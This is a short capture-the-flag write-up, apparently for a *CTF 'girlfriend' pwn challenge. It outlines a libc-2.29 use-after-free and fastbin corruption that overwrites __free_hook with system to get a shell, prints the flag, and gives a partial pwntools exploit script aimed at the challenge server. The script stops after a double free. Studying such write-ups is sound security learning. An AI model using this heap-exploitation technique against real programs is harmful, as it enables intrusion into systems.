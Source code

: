 ```python
```
### girlfriend

* libc-2.29 & UAF vulnerability
* fastbin corruption 
* Modify free_hook to system and free("sh") get shell

flag: `*CTF{pqyPl2seQzkX3r0YntKfOMF4i8agb56D}`


```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import sys
import time
import random
host = '34.92.96.238'
port = 10001

def add(size,name,call):
  r.recvuntil("e:")
  r.sendline("1")
  r.recvuntil("name\n")
  r.sendline(str(size))
  r.recvuntil(":\n")
  r.send(name)
  r.recvuntil(":\n")
  r.send(call)
  pass

def show(index):
  r.recvuntil("e:")
  r.sendline("2")
  r.recvuntil(":\n")
  r.sendline(str(index))
  pass

def call(index):
  r.recvuntil("e:")
  r.sendline("4")
  r.recvuntil(":\n")
  r.sendline(str(index))
  pass

if len(sys.argv) == 1:
  r = process("./pwn")

else:
  r = remote(host ,port)

if __name__ == '__main__':
  add(0x18,"A"*8,"B") # 9
  for i in xrange(9):
    add(0x28,"A"*0x28,"B"*0xc)
  add(0x18,"A"*8 + p64(0x31),"B") # 10
  call(0)
  add(0x420,"A","B")  # 11
  add(0x18,"A","B")   # 12
  for i in xrange(7):
    call(str(i+1))
  call(8)
  call(9)
  call(8)
```